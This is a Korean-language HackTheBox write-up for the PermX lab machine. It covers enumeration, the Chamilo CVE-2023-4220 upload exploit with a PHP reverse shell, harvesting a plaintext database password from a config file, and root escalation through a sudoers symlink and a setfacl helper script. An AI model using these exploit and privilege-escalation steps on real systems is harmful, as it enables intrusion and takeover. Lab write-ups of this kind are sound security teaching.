 ```yaml
---
title: "PermX  HTB 가치 분석 및 사용법"
description: ""
coverImage: "/assets/img/2024-07-09-PermXHTB_0.png"
date: 2024-07-09 22:54
ogImage: 
  url: /assets/img/2024-07-09-PermXHTB_0.png
tag: Tech
originalTitle: "PermX — HTB"
link: "https://medium.com/@kript0r3x/permx-htb-84871140b508"
---
```



<img src="/assets/img/2024-07-09-PermXHTB_0.png" />

리눅스 머신이고, nmap 스캔을 시작하면 두 개의 열린 포트가 나타납니다.

```js
$ nmap -A -sV -sC 10.129.84.129 -oA nmap/PermX
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-08 10:52 EDT
Nmap scan report for 10.129.84.129
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

80번 포트에서 실행되는 웹 서버가 http://permx.htb를 가리킵니다. vhosts에 추가하고 해당 URL로 이동하면 정적 웹 사이트가 표시됩니다. 흥미로운 내용은 없습니다.

<div class="content-ad"></div>

그럼, ffuf를 사용하여 하위 도메인 열거를 수행하면 lms.permx.htb 하위 도메인을 확인할 수 있습니다.

```js
└─$ ffuf -w /opt/useful/Discovery/Web-Content/big.txt:FUZZ -u http://permx.htb:80 -H "Host: FUZZ.permx.htb" -fw 18

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb:80
 :: Wordlist         : FUZZ: /opt/useful/Discovery/Web-Content/big.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 18
________________________________________________

lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 1389ms]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 72ms]
:: Progress: [20476/20476] :: Job [1/1] :: 604 req/sec :: Duration: [0:00:31] :: Errors: 0 ::
```

그 후 vhosts에 추가하고 웹 사이트를 방문하면 Chamilo 웹 애플리케이션의 로그인 페이지가 표시됩니다.

<img src="/assets/img/2024-07-09-PermXHTB_1.png" />

<div class="content-ad"></div>

채밀로 애플리케이션의 최근 취약점을 찾던 중, 아래 GitHub을 발견했어요. 거기에는 인증되지 않은 역방향 코드 실행을 얻기 위한 POC가 나와 있어요.

위 PHP 역술을 사용하면, 위 POC로 역방향 쉘을 획득할 수 있어요. (공격 호스트의 IP 주소로 IP 주소를 수정해주세요)

[https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

```js
─$ ./CVE-2023-4220.sh -f php-reverse-shell.php -h http://lms.permx.htb -p 1234
-e 
curl: (6) Could not resolve host: lms.permx.htb

# 아래 명령어를 사용하여 TTY를 상호작용하는 데에 사용할 수 있어요;)
# python3 -c 'import pty;pty.spawn("/bin/bash")'
# export TERM=xterm
# CTRL + Z
# stty raw -echo; fg

# 포트 1234에서 역술을 시작했어요. . . . . . . 
```

<div class="content-ad"></div>

www-data 사용자로 쉘에 접속했습니다. linpeas를 실행하여 로컬호스트에서 chamilo 사용자의 데이터베이스 자격 증명을 찾았습니다. 홈 디렉토리를 살펴보니 mtz라는 사용자가 있었습니다. 찾은 비밀번호를 사용하여 mtz 사용자로 호스트에 SSH로 접속했습니다.

```js
/var/www/chamilo/app/config/configuration.php:$_configuration['auth_password_links'] = [                
/var/www/chamilo/app/config/configuration.php:$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

```js
cat /var/www/chamilo/app/config/configuration.php
<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
 * (table settings_current).
 */

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;

/**
```

mtz 사용자로 호스트에 로그인한 후, 사용자 플래그를 찾았습니다. 또한, 이 사용자가 root로서 '/opt/acl.sh'와 같은 사용자 지정 스크립트를 실행할 수 있다는 것을 알게 되었습니다.

<div class="content-ad"></div>

```js
사용자 mtz가 permx에서 다음 명령을 실행할 수 있습니다:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

이 스크립트는 모든 사용자에 대해 파일의 권한을 변경할 수 있지만 /home/mtz 디렉토리의 파일 권한만 변경할 수 있습니다.

```js
mtz@permx:~$ cat /opt/acl.sh 
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

이 스크립트를 사용하여 sudoers 파일의 권한을 변경하고 mtz 사용자에게 호스트에서 sudo 권한을 부여했습니다. 이를 위해 /home/mtz 디렉토리에 /etc/sudoers 파일에 대한 심볼릭 링크를 만들고 사용자에게 읽기/쓰기 권한을 부여하기 위해 스크립트를 사용했습니다.

<div class="content-ad"></div>

```js
mtz@permx:~$ ln -s /etc/sudoers ./tada
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/tada
```

다음과 같이 sudoers 파일을 수정했습니다.

```js
<SNIP>

@includedir /etc/sudoers.d
mtz ALL=(ALL:ALL) NOPASSWD: ALL
```

다시 로그인하고 'sudo su'를 입력하면 루트 셸을 얻을 수 있습니다.


<div class="content-ad"></div>

```js
mtz@permx:~$ sudo su
root@permx:/home/mtz# cd /root
root@permx:~# ls
backup  reset.sh  root.txt
```